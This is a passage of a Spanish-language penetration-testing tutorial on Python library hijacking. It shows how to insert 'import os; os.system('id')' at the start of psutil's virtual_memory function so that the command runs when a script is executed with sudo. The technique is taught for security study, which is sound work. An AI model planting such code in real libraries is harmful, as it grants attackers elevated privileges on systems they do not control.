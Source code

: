 
Dichos permisos son más comunes en entornos de desarrolladores donde muchos desarrolladores trabajan en diferentes scripts y pueden requerir mayores privilegios.

#### Contenido del módulo

Código:pitón

```python
...SNIP...

def virtual_memory():

	...SNIP...
	
    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

Esta es la parte en la biblioteca donde podemos insertar nuestro código. Se recomienda ponerlo bien al comienzo de la función. Allí podemos insertar todo lo que consideramos correcto y efectivo. Podemos importar el módulo`os`Para fines de prueba, que nos permite ejecutar comandos del sistema. Con esto, podemos insertar el comando`id`y verifique durante la ejecución del script si se ejecuta el código insertado.

#### Contenido del módulo - secuestro

Código:pitón

```python
...SNIP...

def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('id')
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

Ahora podemos ejecutar el script con`sudo`y verifique si obtenemos el resultado deseado.
